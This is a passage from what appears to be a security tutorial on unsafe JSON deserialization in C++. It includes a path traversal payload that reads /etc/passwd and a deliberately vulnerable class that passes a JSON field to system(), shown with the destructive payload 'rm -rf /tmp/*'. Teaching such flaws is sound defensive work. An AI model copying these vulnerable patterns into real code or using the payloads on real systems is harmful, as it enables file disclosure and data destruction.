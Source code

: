 ```c++
int main() {
    // Attacker-controlled JSON
    std::string malicious_json = R"({"path": "../../../../../etc/passwd"})";

    try {
        json j = json::parse(malicious_json);
        FileHandler handler;
        handler.from_json(j);
        handler.readFile(); // Reads and prints /etc/passwd
    } catch (const std::exception& e) {
        std::cerr << "Exception: " << e.what() << '\n';
    }

    return 0;
}
```

Here, the attacker controls the `path` field in the JSON.  The `from_json` function calls the `setFilePath` method, which sets the `filePath` member.  The attacker uses a path traversal attack (`../../../../../etc/passwd`) to read the contents of the `/etc/passwd` file.  While this example doesn't achieve RCE, it demonstrates how controlling method calls can lead to information disclosure.  A similar vulnerability could exist where a setter writes to a file, allowing the attacker to overwrite arbitrary files.

**Scenario 3: Object with Dangerous Side Effects (System Call)**

```c++
#include <iostream>
#include <string>
#include <nlohmann/json.hpp>
#include <cstdlib> // For system()

using json = nlohmann::json;

class CommandExecutor {
public:
    std::string command;

    CommandExecutor(const std::string& cmd) : command(cmd) {
        // VULNERABLE: Executes command in constructor!
        system(command.c_str());
    }

    void from_json(const json& j) {
      // Create a temporary object, triggering the constructor
      CommandExecutor* temp = new CommandExecutor(j["command"].get<std::string>());
      delete temp;
    }
};

int main() {
    // Attacker-controlled JSON
    std::string malicious_json = R"({"command": "rm -rf /tmp/*; echo 'Pwned!'"})";

    try {
        json j = json::parse(malicious_json);
        CommandExecutor executor;
        executor.from_json(j); // Executes the malicious command
    } catch (const std::exception& e) {
        std::cerr << "Exception: " << e.what() << '\n';
    }

    return 0;
}
```